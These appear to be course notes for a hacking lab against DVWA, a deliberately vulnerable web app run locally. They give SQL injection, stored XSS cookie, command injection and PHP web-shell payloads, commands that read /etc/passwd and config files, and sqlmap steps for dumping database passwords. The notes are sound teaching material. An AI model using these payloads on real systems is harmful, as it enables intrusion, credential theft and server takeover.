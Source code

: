 # Demo: WEB-APP DVWA - summary

you will:

- [x] learn what to avoid using **DVWA** (damn vulnerable web app)
- [x] learn how easy it is to gather information using **SQLMAP** as a hacking-tool

## L: install dvwa using docker

- /SEC/SEC-WEB/01-DEMO-dvwa/docker-scripts-dvwa/readme.txt
- ```docker pull vulnerables/web-dvwa```

## L: sql-injection

~~~bash 
2' OR '1'='1

see the sql-statement:
select ... from users where user_id=' 2' OR '1'='1 '
~~~

- see different security-levels and how to avoid sql-injection 
- (see: /SEC/SEC-WEB/01-DEMO-dvwa/DEMO-01-dvwa.pdf)

## L: XSS stored

~~~ html
<iframe src="http://www.htl-salzburg.ac.at"></iframe>
<script>alert (document.cookie);</script>
~~~

## L: Command Injection

~~~ bash
127.0.0.1 ; ls -lR /var/www/html/dvwa
127.0.0.1 ; find / -name "*config*"
127.0.0.1 ; pwd
127.0.0.1 ; whoami
127.0.0.1 ; id
127.0.0.1 ; ps -aux
127.0.0.1 ; uname -a & users & w
127.0.0.1 ; cat /etc/group
127.0.0.1 ; cat /etc/passwd
~~~

- see: regex and php

## L: Upload DVWA

- file: hack.php

~~~ php
<?php echo exec($_GET['cmd']);?>
~~~

1. upload hack.php
2. [http://localhost/dvwa/hackable/uploads/hack.php?cmd=ls](http://localhost/dvwa/hackable/uploads/hack.php?cmd=ls)

## S: study PHP: SECURITY-TIPPS

see **/courses/SEC/SEC-WEB/01-DEMO-dvwa/DEMO-01-dvwa.pdf**

## L+S: upload shell.php

- see script: SEC/SEC-WEB/scripts/php/

1. download shell.php from [https://github.com/flozz/p0wny-shell](https://github.com/flozz/p0wny-shell)
2. upload shell.php
3. [http://localhost/dvwa/hackable/uploads/shell.php](http://localhost/dvwa/hackable/uploads/shell.php)
4. try some commands:

~~~ bash
    - ls
    - cd /
    - pwd
    - id
    - ls -lR /var/www/html/dvwa
    - find / -name "*config*"
~~~

## S: upload phpshell.php

1. download phpshell-2.5.tar.gz from [https://phpshell.sourceforge.io/](https://phpshell.sourceforge.io/)
2. upload file phpshell-2.5.tar.gz and untar with [http://localhost/dvwa/hackable/uploads/hack.php?cmd=tar%20xfz%20phpshell-2.5.tar.gz](http://localhost/dvwa/hackable/uploads/hack.php?cmd=tar%20xfz%20phpshell-2.5.tar.gz)
3. run php-Shell with [http://localhost/dvwa/hackable/uploads/phpshell-2.5/phpshell.php](http://localhost/dvwa/hackable/uploads/phpshell-2.5/phpshell.php)
4. read file INSTALL

~~~ bash
  - [users]
  - informatik= "comein"
~~~

## L+S: SQLMAP: Hacking Mysql-Server of a WEB-APP (dvwa)

use hacking-tool **sqlmap** for INFORMATION gathering:

- [x] use XSS (stored) to get session-id
- [x] use sqlmap to get DB-information (what database, tables, user, passwords, ...)
- [x] use sqlmap to get login passwords

study /SEC/SEC-WEB/scripts/sqlmap/Makefile

- use XSS to get PHPSESSID
  - ```<script>alert (document.cookie);</script>``` and
- in Makefile adapt: PHPSESSID
- in Makefile adapt: BASEURL http://localhost:8800
  - make 2
  - make 3
  - make 4
  - make 5
  - make 6
  - ... (use default answers by typing enter )